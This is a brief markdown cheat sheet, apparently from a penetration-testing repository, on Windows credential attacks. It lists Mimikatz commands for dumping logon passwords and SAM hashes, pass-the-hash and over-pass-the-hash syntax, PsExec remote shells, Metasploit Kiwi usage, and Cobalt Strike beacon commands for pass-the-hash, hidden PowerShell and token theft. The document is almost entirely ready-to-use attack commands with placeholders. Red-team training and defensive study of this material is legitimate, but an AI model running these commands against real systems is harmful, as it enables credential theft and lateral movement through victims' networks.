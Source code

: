 # Mimikatz

## 01 - Manual

### 1.1 - Dump the hashes

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

mimikatz # lsadump::sam
```

### 1.2 - Over Pass the Hash

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain_name> /ntlm:<NTLM_hash> /run:<commands>

mimikatz # sekurlsa::pth /user:<username> /domain:<domain_name> /aes256:<aes256_hash> /ntlm:<NTLM_hash> /aes128:<aes128_hash> /run:<commands>

C:\> PsExec64.exe -accepteula \\<IP> cmd.exe
```

## 02 - Metasploit

### 2.1 - Kiwi

```
meterpreter > load kiwi

meterpreter > kiwi_cmd
```

## 03 - Havoc

TODO: Demonstrate pass the hash in Havoc

## 04 - Cobalt Strike

```
beacon> pth <username> aad3b435b51404eeaa3b435b51404ee:<NT> <commands>

beacon> pth Administrator aad3b435b51404eeaa3b435b51404ee:<NT> powershell -w hidden

beacon> steal_token <powershell_process_id>
```

---
## References

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)